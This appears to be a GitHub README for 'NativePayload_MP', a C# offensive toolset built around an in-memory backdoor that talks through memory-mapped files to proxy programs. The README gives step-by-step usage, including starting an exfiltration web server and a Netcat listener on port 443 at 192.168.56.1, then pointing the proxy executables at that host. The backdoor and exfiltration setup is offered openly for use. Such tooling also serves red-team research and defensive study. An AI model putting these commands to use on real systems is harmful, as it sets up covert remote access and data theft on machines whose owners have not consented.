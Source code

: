 # NativePayload_MP
C# Memory Mapped File & Connection in-memory between Backdoor & Proxy Process
-----------------------


 NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
    step2: NativePayload_MP.exe
    
--------------------------------------------    


 NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.sh as web Exfil-server tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] NativePayload_HTTP.sh -exfilwebserver 80
    step3: [win]                NativePayload_MP1.exe 192.168.56.1 
    
 --------------------------------------------    
   

NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
NativePayload_MPAgent.cs (this code is our backdoor tool, working in memory only, without network connection) 
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
   
---------------------------------------------    
    
Article [1]: https://www.linkedin.com/pulse/memory-mapping-file-connection-in-memory-between-damon-mohammadbagher/

Article [2]: https://damonmohammadbagher.github.io/Posts/10mar2021x.html

Video:

------------------------------------------------
NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.sh as web Exfil-server tool) 
 
![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/1.png)

------------------------------------------------
NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/2-W10.png)

------------------------------------------------
NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/mp2-01.png)


